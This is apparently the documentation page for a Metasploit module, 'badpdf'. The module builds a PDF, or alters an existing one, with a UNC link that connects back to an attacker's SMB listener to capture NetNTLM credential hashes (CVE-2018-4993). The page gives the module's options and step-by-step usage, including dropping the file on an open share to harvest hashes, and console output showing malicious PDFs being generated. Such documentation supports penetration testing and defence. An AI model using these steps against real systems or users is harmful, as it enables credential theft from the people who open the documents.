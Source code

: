 This module will either create a blank pdf document which contains a UNC link which will connect back to LHOST if file FILENAME options is used 
or if PDFINJECT option is used will try and inject the necessary UNC code into an existing PDF document.

## Vulnerable Application

Various PDF Readers. Note Adobe released the patch APSB18-09 to prevent this and
FoxIT after version 9.1 is no longer vulnerable.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/fileformat/badpdf```
  4. Customise Options as required
  5. Do: ```run```
  6. A file pointing back to the listening host will then be generated.
  7. Configure auxiliary/server/capture/smb or similar to capture hashes.
  8. Upload the document to an open share or similar and wait for hashes.

## Options

**FILENAME**
This option allows you to customise the generated filename.
This can be changed using set FILENAME test.pdf

**LHOST**
This option allows you to set the IP address of the SMB Listener that the document points to
This can be changed using set LHOST 192.168.1.25

**PDFINJECT**
This option allows you to inject the UNC code into an existing PDF document
This can be changed using set PDFINJECT /path/to/file/pdf.pdf

## Scenarios

### Microsoft Windows

  
  ```
  Console output
  ```

  ```
  msf auxiliary(fileformat/badpdf) > show info

       Name: BADPDF Malicious PDF Creator
     Module: auxiliary/fileformat/badpdf
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  Richard Davy - secureyourit.co.uk
  CheckPoint researchers - Assaf Baharav, Yaron Fruchtmann, Ido Solomon

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  FILENAME                    no        Filename
  LHOST                       yes       Host listening for incoming SMB/WebDAV traffic
  PDFINJECT                   no        Path and filename to existing PDF to inject UNC link code into

Description:
  This module can either creates a blank PDF file which contains a UNC 
  link which can be used to capture NetNTLM credentials, or if the 
  PDFINJECT option is used it will inject the necessary code into an 
  existing PDF document if possible.

References:
  https://cvedetails.com/cve/CVE-2018-4993/
  https://research.checkpoint.com/ntlm-credentials-theft-via-pdf-files/

msf auxiliary(fileformat/badpdf) > 

msf auxiliary(fileformat/badpdf) > set filename test.pdf
filename => test.pdf
msf auxiliary(fileformat/badpdf) > set lhost 192.168.1.28
lhost => 192.168.1.28
msf auxiliary(fileformat/badpdf) > exploit

[+] test.pdf stored at /root/.msf4/local/test.pdf
[\*] Auxiliary module execution completed
msf auxiliary(fileformat/badpdf) > set filename ""
filename => 
msf auxiliary(fileformat/badpdf) > set pdfinject /root/Desktop/example.pdf
pdfinject => /root/Desktop/example.pdf
msf auxiliary(fileformat/badpdf) > exploit

[+] Malicious file writen to /root/Desktop/example.pdf.malicious
[\*] Auxiliary module execution completed
msf auxiliary(fileformat/badpdf) > 
 
  ```